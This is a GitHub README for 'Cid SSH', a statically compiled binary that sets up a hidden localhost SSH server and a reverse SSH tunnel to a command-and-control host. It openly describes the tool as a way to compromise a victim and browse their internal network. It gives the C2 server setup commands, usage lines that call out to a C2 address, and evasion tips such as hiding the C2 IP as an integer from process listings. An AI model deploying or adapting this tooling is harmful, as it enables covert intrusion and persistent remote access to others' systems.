 <p align="center">
  <img src="http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg">
</p>

<p align="center">
  <a href="https://github.com/RedRangerz/Cid-SSH/actions?query=workflow%3A%22Build+for+Windows%22"><img alt="Build for Windows" src="https://github.com/RedRangerz/Cid-SSH/workflows/Build%20for%20Windows/badge.svg"></a>
  <a href="https://github.com/RedRangerz/Cid-SSH/actions?query=workflow%3A%22Build+for+macOS%22"><img alt="Build for macOS" src="https://github.com/RedRangerz/Cid-SSH/workflows/Build%20for%20macOS/badge.svg"></a>
  <a href="https://github.com/RedRangerz/Cid-SSH/actions?query=workflow%3A%22Build+for+Linux%22"><img alt="Build for Linux" src="https://github.com/RedRangerz/Cid-SSH/workflows/Build%20for%20Linux/badge.svg"></a>
</p>

# Cid SSH

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.


## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous # change /bin/false to /path/to/Cid-Controller to use Cid-Controller
```

Allow blank passwords for SSH sessions for the `anonymous` user and restrict `anonymous` user to allow only reverse port forwarding:

```
sudo cat <<EOT >> /etc/ssh/sshd_config
PermitEmptyPasswords yes
ClientAliveInterval 120
ClientAliveCountMax 3

Match User anonymous
   AllowTcpForwarding remote
   X11Forwarding no
   PermitTunnel no
   GatewayPorts no
   AllowAgentForwarding no
   AllowStreamLocalForwarding no
EOT
```

Restart sshd:
```sudo systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/RedRangerz/Cid-SSH/releases). They are ready to roll.

If you want to compile from source keep reading below.

## Using it

Defaults: user is `anonymous`.

Syntaxis:

`Cid-SSH.exe [user@]C2_hostname`

Examples:
```
Cid-SSH.exe 192.168.15.135
Cid-SSH.exe user@192.168.15.135
Cid-SSH.exe -t 3232239495
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
[Page to do the conversion](http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp).

## Compilation

You can find more info about compilation [here](COMPILATION.md).

## Authors
- Alberto Garcia Illera
- Francisco Oca
- Bert JW Regeer
